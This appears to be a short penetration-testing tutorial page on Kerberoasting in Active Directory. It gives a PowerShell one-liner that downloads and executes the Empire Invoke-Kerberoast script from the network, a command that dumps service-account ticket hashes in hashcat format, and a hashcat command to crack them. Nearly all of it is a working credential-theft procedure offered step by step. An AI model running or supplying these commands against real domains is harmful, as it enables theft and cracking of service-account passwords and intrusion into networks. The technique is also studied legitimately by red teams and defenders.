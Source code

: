 # Get SPN Account Ticket with Invoke-Kerberoast

### Installing Invoke-Kerberoast script

Lets first get the Powershell Invoke-Kerberoast script.

```powershell
iex(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1')
```

***

### Loading into Memory

Now lets load this into memory:

```powershell
Invoke-Kerberoast -OutputFormat hashcat |fl
```

You should get a SPN ticket.&#x20;

<figure><img src="../../../../../../../../.gitbook/assets/image (47).png" alt=""><figcaption></figcaption></figure>

***

### Cracking Hash using Hashcat

The type of hash we're cracking is **Kerberos 5 TGS-REP etype 23** and the hashcat code for this is **13100**

```bash
hashcat -m 13100 -​a 0 hash.txt wordlist --force
```

***
